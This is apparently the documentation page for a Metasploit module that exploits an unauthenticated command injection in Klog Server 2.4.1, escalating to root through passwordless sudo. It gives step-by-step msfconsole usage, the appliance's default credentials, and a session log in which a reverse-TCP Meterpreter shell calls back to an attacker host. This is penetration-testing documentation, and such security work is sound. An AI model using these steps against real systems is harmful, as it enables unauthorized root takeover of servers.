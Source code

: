 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability
in [Klog Server](https://www.klogserver.com/) versions 2.4.1 and prior.
    
The `authenticate.php` file uses the `user` HTTP POST parameter in a call
to the `shell_exec()` PHP function without appropriate input validation,
allowing arbitrary command execution as the apache user.
    
The sudo configuration permits the apache user to execute any command
as root without providing a password, resulting in privileged command
execution as root.

This module has been successfully tested on Klog Server version 2.4.1
virtual appliance.

Download:

* https://www.klogserver.com/download/ova/2.4.1/klogserver.ova

## Verification Steps

The virtual appliance makes use of a default IP address `10.10.56.51`.

To change the network settings:

1. Login as `admin` - the default console and SSH credentials are `admin` / `admin`.
1. Select menu option `Ağ ayarları` (1) to view network settings

```
=== ANA MENÜ ===========================================================

  1. Ağ ayarları
  2. Sorun giderme
  3. Bakım
  4. Cıkış

Çalıştırmak istediğiniz komutun sayısını giriniz: 1
```

1. Select menu option `Ağ ayarlarını güncelle` (2) to change the current network configuration

```
--- AĞ AYARLARI --------------------------------------------------------

  1. Ağ ayarlarını göster
  2. Ağ ayarlarını güncelle
  3. Ana menüye dön

Çalıştırmak istediğiniz komutun sayısını giriniz: 2
```

1. Enter the desired IP address, netmask, and gateway

```
Yeni IP adresi giriniz. Menüye dönmek için Enter'a basınız:
> 10.1.1.123

  IP adres: 10.1.1.123 

Yeni alt ag maskesini giriniz. Menüye dönmek için Enter'a basınız:
> 255.255.255.0

  IP adres: 10.1.1.123 
  Alt ağ maskesi: 255.255.255.0 

Yeni ağ geçidini giriniz. Menüye dönmek için Enter'a basınız:
> 10.1.1.1

  IP adres: 10.1.1.123 
  Alt ağ maskesi: 255.255.255.0 
  Ağ geçidi: 10.1.1.1 

Ayarlar uygulanıyor...
```

Metasploit:

1. Start msfconsole
1. Do: `use exploit/linux/http/klog_server_authenticate_user_unauth_command_injection`
1. Do: `set RHOSTS [IP]`
1. Do: `set TARGET [TARGET]`
1. Do: `set PAYLOAD [PAYLOAD]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### TARGETURI

The base path of the Klog Server (Default: `/`)

### USE_SUDO

Execute payload as root using `sudo` (Default: `true`)

## Scenarios

### Klog Server version 2.4.1

```
msf > use exploit/linux/http/klog_server_authenticate_user_unauth_command_injection 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > set rhosts 10.1.1.123
rhosts => 10.1.1.123
msf exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > check
[+] 10.1.1.123:443 - The target is vulnerable. Response received after 9 seconds.
msf exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > set target 0
target => 0
msf exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > set lhost 10.1.1.105 
lhost => 10.1.1.105
msf exploit(linux/http/klog_server_authenticate_user_unauth_command_injection) > run

[*] Started reverse TCP handler on 10.1.1.105:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Response received after 11 seconds.
[*] Sending stage (980808 bytes) to 10.1.1.123
[*] Meterpreter session 1 opened (10.1.1.105:4444 -> 10.1.1.123:35824) at 2021-02-11 22:59:15 -0500
[*] Command Stager progress - 100.00% done (773/773 bytes)

meterpreter > getuid
Server username: root @ klogserver.klogserver.com (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : klogserver.klogserver.com
OS           : CentOS 7.3.1611 (Linux 3.10.0-514.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```
